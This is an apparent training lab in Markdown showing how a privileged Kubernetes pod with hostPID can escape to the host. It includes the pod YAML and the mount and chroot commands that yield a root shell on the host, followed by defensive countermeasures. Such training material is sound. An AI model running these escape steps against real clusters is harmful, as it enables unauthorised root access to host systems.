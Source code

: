 # 🧪 Container Escape in Kubernetes (for Educational Purposes Only)

## ⚠️ Disclaimer
**This lab is for training and awareness only!**  
Never attempt container escapes in unauthorized environments.

---

## 🎯 Objective
Understand how misconfigured containers can allow attackers to escape into the host system.

---

## 🧰 Prerequisites

- Kubernetes cluster (preferably local, like Minikube or kind)
- `kubectl` configured
- A pod is allowed to run in privileged mode (for simulation)

---

## 🔹 Lab 1: Deploy a Privileged Pod

Deploy a highly privileged pod:

```yaml
# privileged-escape-pod.yaml
apiVersion: v1
kind: Pod
metadata:
  name: escape-demo
spec:
  hostPID: true
  containers:
  - name: attacker
    image: busybox
    command: ["sleep", "3600"]
    securityContext:
      privileged: true
```

```bash
kubectl apply -f privileged-escape-pod.yaml
```

✅ Pod runs with `hostPID` and `privileged` mode — dangerous in production!

---

## 🔹 Lab 2: Inspect Host Processes from Inside the Pod

```bash
kubectl exec -it escape-demo -- sh
```

Inside the container:

```bash
ps aux
```

✅ **Expected:** You see host system processes.

---

## 🔹 Lab 3: Access the Host Filesystem

Still inside the container:

```bash
ls /host
```

(May fail if `/host` is not mounted — so let's try mounting it.)

Mount the host root filesystem:

```bash
mkdir /mnt
mount /dev/sda1 /mnt
ls /mnt
```

✅ Gain access to the host filesystem.

---

## 🔹 Lab 4: Spawn a Host Shell

Inside the container (dangerous):

```bash
chroot /mnt /bin/sh
```

✅ **You are now running as root on the host** from inside the container.

---

## 🔹 Lab 5: Defensive Countermeasures

- **Never** allow `privileged: true` unless absolutely necessary.
- **Do not** enable `hostPID`, `hostNetwork`, or `hostIPC` unless required.
- Use **PodSecurityAdmission** with `restricted` level.
- Enforce **AppArmor**, **Seccomp**, and **readOnlyRootFilesystem**.
- Regularly audit pods for excessive privileges.

---

## 🔹 Lab 6: Clean Up

```bash
kubectl delete pod escape-demo
```

---

## ✅ Wrap-Up

- ✅ Demonstrated how container misconfiguration can lead to host escape
- ✅ Understood the power of `privileged` and `hostPID`
- ✅ Learned prevention strategies for real-world defense

---